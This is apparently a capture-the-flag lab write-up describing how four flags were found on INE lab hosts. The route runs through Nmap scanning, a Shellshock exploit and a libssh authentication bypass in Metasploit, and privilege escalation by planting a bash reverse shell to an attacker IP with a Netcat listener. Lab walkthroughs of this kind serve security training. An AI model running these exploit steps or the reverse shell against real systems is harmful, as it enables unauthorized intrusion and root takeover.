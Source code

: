 ## Host & Network Penetration Testing: System-Host Based Attacks CTF 2

### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

```
nmap -sS -O -p- -T4 target1.ine.local
```

```
nmap -sS -O -p80 -sV -T4 target1.ine.local
```

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-bin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

```
nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"
```

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
```
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS target1.ine.local
setg TARGETURI /browser.cgi
setg LHOST 192.164.224.2 
run
```
***Note: If something is not working, try selecting another LPORT.***

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

***

### Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.

***

### Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

```
nmap target2.ine.local -p- -T4 -sS
```

```
nmap target2.ine.local -p22 -T4 -sS -sV
```

Using:

```
searchsploit libssh
```

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
```
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1
```

Navigating to the home folder of the user, we locate the third flag.

***

### Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
```
bash -i >& /dev/tcp/192.164.224.2/41234 0>&1
```

After using Netcat to open port on the attack machine to listen for communications:

```
nc -nlvp 41234
```

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
